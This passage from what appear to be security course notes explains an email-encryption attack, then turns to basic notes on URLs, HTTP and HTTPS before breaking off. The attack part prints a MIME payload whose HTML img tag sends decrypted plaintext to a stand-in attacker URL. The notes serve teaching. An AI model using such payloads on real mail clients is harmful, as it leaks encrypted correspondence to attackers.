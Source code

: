         Content-Type: text/html
        ">
        --BOUNDARY
        ```
      - The client of the user who encoded automatically performs the decryption, replacing the plaintext into the message
        ```
        [...]
        Content-Type:multipart/mixed;boundary="BOUNDARY"
        [...]
        --BOUNDARY
        Content-Type:text/html
        
        <imgsrc="http://attacker.chosen.url/
        DECRYPTED-SECRET
        ">
        --BOUNDARY
        ```
        - If the client is rendering the HTML code, this will trigger a HTTP request for retrieving the image `http://attacker.chosen.url/DECRYPTED-SECRET` which will leak the secret content to attacker

#### Web technologies

- HTTP
  - Uniform resource locator (URL)

    ![](./res/img/28.png)

    - Some elements are optional
    - When reserved characters (like space : ? /) need to be used in the URL, they must be URL-encoded
  - HTTP protocol
    - Stateless: different requests are processed independently from each other
      - Cookies are used to implement stateful applications on top of HTTP
    - Not encrypted
    - Default port for HTTP is 80
  - HTTPS protocol
    - Secure variant of HTTP
    - HTTP traffic delivered over a TLS connection
    - Default port is 443
  - HTTP request

